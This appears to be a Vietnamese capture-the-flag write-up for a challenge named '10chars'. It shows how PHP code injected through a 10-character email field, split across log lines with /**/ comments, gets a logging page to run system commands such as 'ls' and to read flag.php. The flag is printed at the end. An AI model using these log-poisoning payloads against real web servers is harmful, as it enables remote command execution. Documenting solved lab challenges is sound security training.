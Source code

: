 Chúng ta truy cập vào trang http://10chars.scoreboard.ns01.info/index.php?page=login.php và có giao diện:

![alt text](https://raw.githubusercontent.com/Alic3Margatroid/ctfsv/master/10char/login.PNG)

Đăng ký user, nhận thấy các trường đều bị giới hạn lượng ký tự là 10. Đăng nhập vào ta có:

![alt text](https://raw.githubusercontent.com/Alic3Margatroid/ctfsv/master/10char/home.PNG)

Chức năng log:

![alt text](https://raw.githubusercontent.com/Alic3Margatroid/ctfsv/master/10char/log.PNG)

và chức năng log sau khi chúng ta thử đổi thay đổi thông tin cá nhân (email):

![alt text](https://raw.githubusercontent.com/Alic3Margatroid/ctfsv/master/10char/alt-log.PNG)

Có thể thấy khi chúng ta thay đổi email, thông tin sẽ được log lại vào 1 file log nào đó, sau đó chức năng log sẽ đọc file này rồi in ra màn hình. Điều này dẫn tới ý tưởng inject code php để chạy system command. Tuy nhiên 1 email chỉ có 10 ký tự, và log kèm email còn có 1 string khác, nên ta sẽ bypass việc này bằng cách chèn comment /**/ giữa các dòng.

Gửi các dòng như sau:
&lt;?php /*
\*/$a=/*
\*/'ls';/*
\*/system/*
\*/($a)/*
\*/;?&gt;
với parameter là email, vào log ta sẽ được:

![alt text](https://raw.githubusercontent.com/Alic3Margatroid/ctfsv/master/10char/ls.PNG)

Tương tự như trên, gửi các dòng
&lt;?php /*
\*/$a=/*
\*/'cat '/*
\*/.'fla'/*
\*/.'g.p'/*
\*/.'hp';/*
\*/system/*
\*/($a)/*
\*/;?&gt;
để đọc flag.php sẽ được:

![alt text](https://raw.githubusercontent.com/Alic3Margatroid/ctfsv/master/10char/flag.PNG)

flag: Flag{_0nLy_10Ch4RAct3r_}
